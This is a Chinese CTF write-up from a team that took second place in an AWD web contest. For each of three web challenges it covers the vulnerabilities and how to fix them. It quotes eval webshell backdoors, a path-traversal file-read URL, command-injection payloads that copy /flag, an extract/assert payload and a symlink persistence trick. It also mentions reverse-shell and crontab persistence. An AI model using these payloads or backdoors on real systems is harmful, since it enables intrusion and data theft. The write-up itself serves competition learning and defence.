

(本文首发于星盟安全公众号,链接:北极星杯AWD-Web-Writeup)
前言
祝祖国70周年生日快乐,也祝星盟一周年生日快乐.感谢各位师傅在国庆假期抽出时间参加这次比赛,也感谢负责组织比赛的师傅忙前忙后.
大哥大嫂国庆好!!!
先贴上web题目源码:
https://pan.baidu.com/s/1O-0DDM5CPCh3DtUdAdN3CQ
因为是先上的waf再做的备份,所以看到waf相关的东西师傅们可以无视…
web1
冰蝎后门
在/pma路径下有个binxie2.0.1.php与\assets\images\yjh.php,密码是pass.
但是因为冰蝎马有个交换aes秘钥,并且流量都通过aes加密,之前没写过冰蝎的批量脚本.并且木马设置的太明显,大部分队伍很快就能发现.因此,除了最开始手动提交了几个,这个后门我们并没有用上.
实际上,到了比赛中后期,还有四五支队伍没有清理这个后门.
修复方案:
删除后门文件
eval后门
位于\assets\scripts\pass.php
@eval($_POST['pass']);
太明显了,直接批量脚本跑就完事了.
修复方案: 删除后门文件
登录处sql注入
可用万能密码直接登录,也可以直接使用sqlmap.
sqlhelper.php目录下可以看到配置文件,
1 | private static $host="127.0.0.1"; |
数据库dba是root权限,有可能被利用来提权或读文件.
因为找到了更容易利用的点,忘了这个sql注入,所以并没有用上这个点.
修复方案:
转义或过滤单引号
反序列化
位于sqlhelper.php文件
1 | if (isset($_POST['un']) && isset($_GET['x'])){ |
poc如下:
1 | import requests,re |
get请求:
虽然我们很早就发现了这个点,但是没有在第一时间写出payload,靠着不知道拿队大佬打过来的流量,实现的反打.
修复方案:
删除unserialize($_POST['un']);即可
web1我们队只发现了上诉漏洞,流量记录中也没有其他可疑记录,如果师傅们有其他漏洞,欢迎交流
web2
冰蝎后门
位于\icon\pww.php与pass.php
利用与修复同web1
eval后门
在.\login\index.php文件57行存在eval后门
1 | @eval($_POST['nono']); |
靠着手速抢先留其他后门,制作软连接后门,ln -s /flag /var/www/html/.config.php,不少队一直没发现,利用到了最后.
修复方案:
删除即可.
任意文件读取
漏洞位于img.php
1 |
|
可以看到file_get_contents函数没有任何过滤,用requests或burpsuite发包读取flag.
payload:http://39.100.119.37:2%s80/img.php?img=../../../../../flag
修复方案:
写死$file参数, checkdown也不会检查图片显示正不正确.
命令注入
位于\connect.php,82行
1 | if (isset($_GET['check'])) { |
可以看到GET提交$check参数为”net”,再POST提交host参数即可实现命令注入.
payload:;cat /flag>/var/www/html/.config.php
web2只发现了这几个漏洞,不过可以肯定存在其他漏洞,在比赛中后期,我们被频繁拿分,但后面有些手忙脚乱没有仔细翻流量.没有实现反打.
web3
命令注入
位于export.php
1 |
|
没有任何过滤,$name参数可控,导致命令注入.
payload: post name参数提交:1.tar /fla*;
然后访问site.com/backup/1.tar
因为有其他队师傅在批量跑.因此我们就干脆搭顺风车,下载1.tar提交一下.
修复方案:
把name参数写死.
extract后门
位于\include\config.php与\app\includes\config.php两处,一模一样的后门
1 |
|
payload: post提交d=assert&c=phpinfo()
修复方案:
删除这两个文件.
web3应该也还有其他漏洞,很可惜没有审计出来.
总结
很幸运拿到第二名,感谢送的奖品^ ^
总得来说,这次比赛漏洞设置的都比较明显,大部分通过d盾都可以扫出来,流量特征也很明显.
流量审计在题目难度不高的AWD比赛中效果非常显著.能够快速将抓到的payload转化为自动脚本反击,也可以抓不死马的密码搭乘顺风车.
在check机制并不是特别严格的情况下,可以上通防waf,阻断请求或返回flag.如果check机制比较严格,可以替换恶意关键字,不阻断请求.如果没做nat,可以找check机ip设置白名单.
至于其他权限维持的方法,比如软链接,crontab后门,反弹shell,sh后门.尽量把能用的方法都用上.
如果比赛题目的难度不是特别高,通常可以用d盾扫几个主办方预留的后门,只要手速够快,就可以再其他队伍删除后门之前留下各种后门,可以稳住前期优势,这次比赛我们队就在前期通过主办方后门稳居前三.
中后期,自动化脚本在批量利用web123以及pwn2.只可惜权限维持没做好,最后时刻被反超了.
最后膜一下腹黑师傅的W&M战队,最后几轮直接火箭升天,从落后四五百分到领先将近2000分,太强了,强到让我一度怀疑日穿了平台.
也要膜一下小远师傅的黑科技,

在比赛前准备一个自动备份,上waf,恢复网站的脚本是很有必要的.
也需要一个提交flag,自动化攻击的框架. 推荐一下王一航师傅的 ReverseShellManager,根据自己需求修改后使用,效果还不错.